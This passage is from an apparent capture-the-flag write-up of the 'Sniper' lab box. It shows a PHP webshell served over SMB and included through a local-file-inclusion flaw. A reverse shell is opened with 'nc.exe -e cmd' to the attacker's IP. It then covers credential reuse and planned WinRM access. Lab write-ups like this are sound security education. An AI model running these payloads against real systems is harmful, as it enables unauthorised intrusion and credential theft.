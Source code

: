 ```bash
echo "<?php system('ping -n 2 10.10.14.9'); ?>" > test.php
tcpdump -i tun0 icmp -n
# view-source:http://10.10.10.151/blog/?lang=\\10.10.14.9\smbFolder\test.php
# :)

# view-source:http://10.10.10.151/blog/?lang=\\10.10.14.9\smbFolder\test.php&cmd=whoami
# view-source:http://10.10.10.151/blog/?lang=\\10.10.14.9\smbFolder\test.php&cmd=dir C:\Users
# :(
# view-source:http://10.10.10.151/blog/?lang=\\10.10.14.9\smbFolder\test.php&cmd=type C:\Users\Chris\Desktop\user.txt
# :(

# view-source:http://10.10.10.151/blog/?lang=\\10.10.14.19\smbFolder\test.php
# view-source:http://10.10.10.151/blog/?lang=\\10.10.14.19\smbFolder\cmd.php
# view-source:http://10.10.10.151/blog/?lang=\\10.10.14.19\smbFolder\old_b0y.php&cmd=dir

locate nc.exe | grep -v al3j0
cp /usr/share/windows-resources/binaries/nc.exe .
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap -cAr nc -nlvp 443
# view-source:http://10.10.10.151/blog/?lang=\\10.10.14.9\smbFolder\test.php&cmd=\\10.10.14.9\smbFolder\nc.exe%20-e%20cmd%2010.10.14.9%20443
# :)
```

> **Victime Machine**:

```cmd
whoami
hostname
ipconfig
```

<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The first thing I find in the system is a **Database configuration** file with credentials that I'm going to write down that will most likely be useful for later. With the first enumeration commands, I find no privileges that allow me to **Escalate privileges**, system information (**OS version**, **64bit architecture**), but I still can't access the first flag (which with the **LFI** I had previously tried). With `crackmapexec` I validate that the password I found corresponds to **Chris's account** (**reusing passwords** is a bad practice that is still used) and also with `netstat` I find that the **WinRM** service is open but locally. If I leak information of the **chris** account I notice that it belongs to the **Remote Management User** group which would allow me to connect remotely with `evil-winrm`, in case the **WinRM** protocol was available.
